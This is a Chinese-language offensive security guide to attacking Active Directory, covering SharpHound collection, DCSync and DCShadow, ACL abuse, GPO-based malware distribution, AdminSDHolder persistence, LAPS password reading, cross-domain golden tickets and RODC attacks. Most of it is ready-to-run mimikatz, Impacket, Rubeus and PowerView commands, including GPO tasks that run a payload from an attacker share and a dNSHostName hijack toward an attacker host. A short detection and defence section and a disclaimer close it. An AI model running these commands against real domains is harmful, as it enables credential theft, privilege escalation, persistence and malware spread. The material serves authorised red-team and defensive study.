







## 一、概述

Active Directory（AD）是企业内网的核心身份基础设施。攻击者突破边界后，AD即成为横向移动与权限提升的主战场。本文系统梳理从信息收集到持久化的完整攻击路径，涵盖BloodHound/SharpHound采集、DCSync/DCShadow、ACL滥用、GPO分发、AdminSDHolder持久化、LAPS密码读取、域信任利用及RODC攻击。



## 二、BloodHound / SharpHound 数据采集

BloodHound使用图论分析AD权限关系，揭示隐藏攻击路径。SharpHound是官方数据采集器，通过LDAP查询、SMB会话枚举、ACL收集构建节点关系图谱，低权限用户即可完成大部分采集：

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -ZipFileName output.zip
# 隐秘模式
Invoke-BloodHound -CollectionMethod Session,LoggedOn,Group,ACL,Trusts -Stealth
# C#可执行文件版（更隐蔽）
# SharpHound.exe -c All -d ad.local --zipfilename data.zip
```

**关键Cypher查询：**

```cypher
// 拥有GenericWrite权限且可到达Domain Admins的用户
MATCH (u:User)-[r:GenericWrite]->(c:Computer)
MATCH p=shortestPath((c)-[*1..]->(g:Group {name:'DOMAIN ADMINS@AD.LOCAL'}))
RETURN u.name, c.name, length(p) AS distance
```

## 三、DCSync 攻击

DCSync利用MS-DRSR协议模拟域控制器向DC请求复制数据。攻击者需持有`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`扩展权限。



**攻击实施：**

```powershell
# Mimikatz拉取krbtgt哈希
mimikatz # lsadump::dcsync /domain:ad.local /user:krbtgt

# 拉取所有用户哈希
mimikatz # lsadump::dcsync /domain:ad.local /all /csv
```

```bash
# Impacket从非域Linux主机发起
python3 secretsdump.py ad.local/user:pass@dc.ad.local -just-dc-user krbtgt
```

**获取DCSync权限的路径：** Domain Admins成员、Exchange Windows Permissions组（默认WriteDacl）、或手动授予：

```powershell
Add-DomainObjectAcl -TargetIdentity "DC=ad,DC=local" -PrincipalIdentity attacker -Rights DCSync
```

## 四、DCShadow 攻击

DCShadow是DCSync的逆向攻击：将攻击主机临时注册为伪DC，主动向真实DC推送恶意数据——篡改账户属性、组成员关系、ACL或SID History。由Benjamin Delpy和Vincent Le Toux在2018年公开。



```powershell
# 步骤1：目标主机以SYSTEM运行
mimikatz # !+
mimikatz # !processtoken
# 步骤2：推送恶意变更
mimikatz # lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=ad,DC=local /attribute:primaryGroupID /value:512
mimikatz # lsadump::dcshadow /push
# 注入SID History持久化
mimikatz # lsadump::dcshadow /object:CN=attacker,CN=Users,DC=ad,DC=local /attribute:sidhistory /value:S-1-5-21-...-500
mimikatz # lsadump::dcshadow /push
```

> DCShadow需DA权限，通常用于高权限阶段注入隐蔽持久化。

## 五、ACL滥用：GenericWrite 与 WriteDacl



### 5.1 GenericWrite 利用

**强制Kerberoasting：**
```powershell
Set-DomainObject -Identity targetuser -Set @{servicePrincipalName='fake/NOTHING'}
Rubeus.exe kerberoast /user:targetuser /outfile:hash.txt
```

**Shadow Credentials（msDS-KeyCredentialLink）：**
```powershell
Whisker.exe add /target:targetuser /domain:ad.local /dc:dc.ad.local
Rubeus.exe asktgt /user:targetuser /certificate:<cert> /password:""
```

### 5.2 WriteDacl 利用

```powershell
# 对目标用户授予GenericAll / DCSync权限
Add-DomainObjectAcl -TargetIdentity targetuser -PrincipalIdentity attacker -Rights All
Add-DomainObjectAcl -TargetIdentity "DC=ad,DC=local" -PrincipalIdentity attacker -Rights DCSync
Set-DomainObjectOwner -Identity targetuser -OwnerIdentity attacker
```
```bash
python3 dacledit.py -action write -rights 'FullControl' -principal attacker -target targetuser ad.local/user:pass
```

## 六、GPO策略恶意软件分发

GPO是AD中最强大的配置分发机制。攻击者获得GPO写入权限后，可大规模分发恶意程序。



```powershell
# SharpGPOAbuse — 计划任务分发恶意程序
SharpGPOAbuse.exe --AddComputerTask --TaskName "WindowsUpdate" `
    --Author "NT AUTHORITY\SYSTEM" --Command "cmd.exe" `
    --Arguments "/c \\attacker\share\beacon.exe" `
    --GPOName "Default Domain Policy" --Force
```
```bash
python3 pygpoabuse.py ad.local/user:pass -gpo-id "GPO_GUID" -command 'cmd /c \\attacker\share\payload.exe' -taskname Update
```

> GPO刷新间隔默认90±30分钟，可通过`gpupdate /force`强制应用。

## 七、AdminSDHolder 持久化

AdminSDHolder（`CN=AdminSDHolder,CN=System`）的ACL作为安全模板，由SDProp进程每60分钟强制同步到所有受保护组（Domain Admins、Enterprise Admins、Administrators、krbtgt等）。



```powershell
# 向AdminSDHolder添加GenericAll
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=ad,DC=local" -PrincipalIdentity attacker -Rights All
# 或指定精确权限
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=ad,DC=local" -PrincipalIdentity attacker -Rights ResetPassword,WriteMembers
# 验证SDProp同步结果
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $attackerSID}
```

> 检测：监控Event ID 5136（AdminSDHolder对象修改），非标准ACE添加应立即告警。

## 八、LAPS 密码读取

LAPS将每台域内计算机的本地Administrator密码随机化后存储在`ms-Mcs-AdmPwd`属性中。默认仅Domain Admins可读，但ACL配置错误可能导致低权限用户读取。

```powershell
# 枚举可读LAPS密码的主机
Get-DomainComputer | Where-Object {$_.'ms-Mcs-AdmPwd' -ne $null} | Select-Object name,'ms-Mcs-AdmPwd'
Get-ADComputer -Identity Workstation01 -Properties ms-Mcs-AdmPwd
```
```bash
python3 laps.py -u user -p pass -d ad.local -dc dc.ad.local
ldapsearch -H ldap://dc.ad.local -D user@ad.local -w pass -b "DC=ad,DC=local" "(ms-Mcs-AdmPwd=*)" ms-Mcs-AdmPwd
```

> BloodHound可定位对计算机拥有控制权的用户，通过修改目标ACL间接获取LAPS密码。

## 九、域信任利用

域信任连接两个域/林的认证边界，跨域攻击核心在于利用信任关系和票据机制突破安全边界。

| 信任类型 | 传递性 | 关键攻击方向 | 核心技术 |
|---------|-------|------------|---------|
| Parent-Child | 双向可传递 | 子域→父域 | SID History注入 + Golden Ticket |
| Tree-Root | 双向可传递 | 子林→根林 | Inter-Realm TGT |
| External | 不可传递 | 受信任域→信任域 | SID History + 信任密钥 |
| Forest | 双向可传递 | 任意方向 | TGT跨林委派 |



**子域→父域提权实战：**

```powershell
# 获取子域krbtgt哈希和SID
mimikatz # lsadump::dcsync /domain:child.ad.local /user:krbtgt

# 获取父域Enterprise Admins组SID
Get-DomainGroup -Identity "Enterprise Admins" -Domain ad.local | Select objectsid

# Mimikatz注入SID History伪造跨域Golden Ticket
mimikatz # kerberos::golden /user:Administrator /domain:child.ad.local \
    /sid:S-1-5-21-<child-sid> /sids:S-1-5-21-<parent-sid>-519 \
    /krbtgt:<krbtgt-hash> /ptt

# 验证跨域EA权限
dir \\dc01.ad.local\c$
```

```bash
# Impacket ticketer.py伪造跨域票据
python3 ticketer.py -domain child.ad.local -domain-sid S-1-5-21-<child-sid> \
    -extra-sid S-1-5-21-<parent-sid>-519 -nthash <krbtgt-hash> administrator
export KRB5CCNAME=administrator.ccache
python3 wmiexec.py administrator@dc01.ad.local -k -no-pass

# 提取信任密钥
mimikatz # lsadump::trust /patch
```

## 十、RODC 攻击

RODC部署在物理安全性低的分支机构，凭据默认不缓存，除非密码复制策略（PRP）明确允许。攻击面包括：`msDS-RevealOnDemandGroup`成员可读缓存凭据、`ManagedBy`属性的用户对RODC有特殊控制权、Revealed List暴露已缓存凭据的用户。

```powershell
# 查看RODC密码复制策略与已缓存凭据
Get-ADDomainController -Filter {IsReadOnly -eq $true} -Properties `
    msDS-RevealOnDemandGroup, msDS-NeverRevealGroup, msDS-RevealedUsers

# 查看RODC管理者
Get-ADDomainController -Filter {IsReadOnly -eq $true} -Properties ManagedBy

# ManagedBy用户可修改RODC复制策略
Set-ADComputer -Identity RODC01$ -Add @{
    'msDS-RevealOnDemandGroup' = 'CN=Domain Admins,CN=Users,DC=ad,DC=local'
}
```

**dNSHostName劫持：** RODC计算机对象ACL通常较宽松，修改`dNSHostName`可将认证流量重定向至攻击者主机实施中间人攻击：

```powershell
Set-DomainObject -Identity RODC01 -Set @{dNSHostName='attacker.ad.local'}
# 攻击者主机启动伪装LDAP/Kerberos服务中继凭据
```

## 十一、检测与防御

| 攻击技术 | 关键检测指标 | 事件ID |
|---------|------------|--------|
| SharpHound采集 | 短时间大量LDAP查询 | 1644 |
| DCSync | DS-Replication权限使用 | 4662 |
| DCShadow | 伪DC注册/删除SPN | 4742/3076 |
| ACL滥用 | 非授权ACL修改 | 5136/4670 |
| AdminSDHolder | AdminSDHolder ACL变更 | 5136 |
| LAPS读取 | ms-Mcs-AdmPwd属性查询 | 4662 |
| 跨域攻击 | 跨域TGT使用 | 4769 |

**防御策略：**
1. **最小权限**：审计DCSync/WriteDacl等敏感权限，利用BloodHound定期自查
2. **LAPS全覆盖**：消除固定本地管理员密码，避免横向移动凭据复用
3. **凭据保护**：启用Credential Guard、Remote Credential Guard、Protected Users组
4. **SYSVOL监控**：限制GPO修改权限，监测SYSVOL异常文件变更
5. **RODC硬化**：严格PRP策略，禁止高权限凭据缓存到RODC
6. **SID过滤**：确保跨林信任启用SID过滤，阻断SID History跨林注入
7. **日志集中**：关联分析域控安全日志，建立攻击行为基线

```powershell
# 自查：列出所有非标准DCSync权限持有者
Get-DomainObjectAcl -SearchBase "DC=ad,DC=local" -ResolveGUIDs |
    Where-Object {$_.ObjectAceType -match 'DS-Replication-Get-Changes'}

# 审计AdminSDHolder ACL
Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=ad,DC=local" -ResolveGUIDs |
    Where-Object {$_.SecurityIdentifierName -notmatch '^(NT AUTHORITY|BUILTIN)'}
```

## 十二、总结

从SharpHound绘制攻击图谱，到DCSync提取凭据、DCShadow植入后门，再到ACL滥用、GPO劫持、AdminSDHolder持久化——Active Directory攻击面盘根错节。防御方需以"假设已遭入侵"的视角持续监控、定期审计、最小化权限暴露面。

---

**免责声明**：本文所述技术仅供安全研究、授权渗透测试和防御建设参考。未经系统所有者明确书面授权在任何环境中使用这些技术均属违法行为。作者及发布平台不对因误用本文信息导致的任何直接或间接损失承担法律责任。
